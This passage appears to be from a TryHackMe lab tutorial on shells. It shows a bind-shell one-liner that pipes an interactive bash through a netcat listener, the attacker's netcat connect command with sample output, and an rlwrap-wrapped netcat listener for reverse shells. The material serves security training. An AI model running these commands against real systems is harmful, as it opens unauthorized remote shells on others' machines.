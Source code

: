 #### Terminal on the Target Machine (Bind Shell Setup)

```bash
target@tryhackme:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
Once the command is executed, it will wait for an incoming connection, as shown above.

#### Attacker Connects to the Bind Shell

Now that the target machine is waiting for incoming connections, we can use Netcat again with the following command to connect.

`nc -nv TARGET_IP 8080`

**Explanation of the command**

- `nc` - This invokes Netcat, which establishes the connection to the target.

- `-n` - Disables DNS resolution, allowing Netcat to operate faster and avoid unnecessary lookups.

- `-v` - Verbose mode provides detailed output of the connection process, such as when the connection is established.

- `TARGET_IP` - The IP address of the target machine where the bind shell is running.

- `8080` - The port number on which the bind shell listens.

Attacker Terminal (After Connection)

```bash
attacker@kali:~$ nc -nv 10.10.13.37 8080 
(UNKNOWN) [10.10.13.37] 8080 (http-alt) open
target@tryhackme:~$
```

## Shell Listeners

As we learned in previous tasks, a reverse shell will connect from the compromised target to the attacker's machine. A utility like Netcat will handle the connection and allow the attacker to interact with the exposed shell, but Netcat is not the only utility that will allow us to do that.

Let's explore some tools that can be used as listeners to interact with an incoming shell.

### Rlwrap

It is a small utility that uses the GNU readline library to provide editing keyboard and history.

Usage Example (Enhancing a Netcat Shell With Rlwrap)

```bash
attacker@kali:~$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

This wraps nc with rlwrap, allowing the use of features like arrow keys and history for better interaction.


### Ncat

